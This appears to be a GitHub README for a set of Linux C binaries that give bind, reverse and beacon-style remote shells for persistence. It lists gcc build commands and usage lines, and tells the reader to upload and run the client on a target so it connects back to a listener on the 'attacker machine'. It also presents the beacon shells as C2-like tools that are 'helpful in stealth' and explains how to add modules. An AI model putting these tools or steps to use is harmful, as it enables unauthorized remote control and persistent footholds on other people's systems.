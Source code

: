 # Description
These are binaries that you can compile and execute to obtain persistence.
- Bind Shells
- Reverse Shells
- Beacon-like Shells

Note: Currently these shells are Linux specific meaning they most likely won't run on Windows OS. Windows shells will come in the future though!

# Compiling
To compile the bind and reverse shells, simply run:
```
gcc -o server server.c && gcc -o client client.c
```

To compile the beacon shells:
```
gcc -Iinclude -o payload payload.c execute.c && gcc -o server server.c
```

# Usage

## Bind Shells
Multi-client bind shell is a work in progress. Currently, only one client can connect at a time. 
```
./server <PORT>

rlwrap ./client <IP> <Port>
```
I also suggest using the `rlwrap` tool when executing the client. This tool allows you to scroll through previous commands and use arrow keys to edit your commands.

## Reverse Shells
Works like a standard reverse shell payload. Just upload and run. The server is the listener, so it's executed on your attacker machine.
```
rlwrap ./server <PORT>

./client <IP> <PORT>
```

## Beacon Shells
These are basically reverse shells except they have a delay in which they grab commands and you can execute binaries as you would in a C2 server. This can be helpful in stealth. HTTP based beacon shells may come in the future!
```
rlwrap ./server <PORT>

./client <IP> <PORT>
```
A feature I implemented with this is that it's easily customizable. You can add your own modules in 3 steps.
1. Define your function name within include/commands.h 
2. Add your function to the `execute.c` program
3. Insert your function name to the dictionary right above the main function in `payload.c`. Follow the format of previous entries.

After that everything should be good to go and ready for use. 
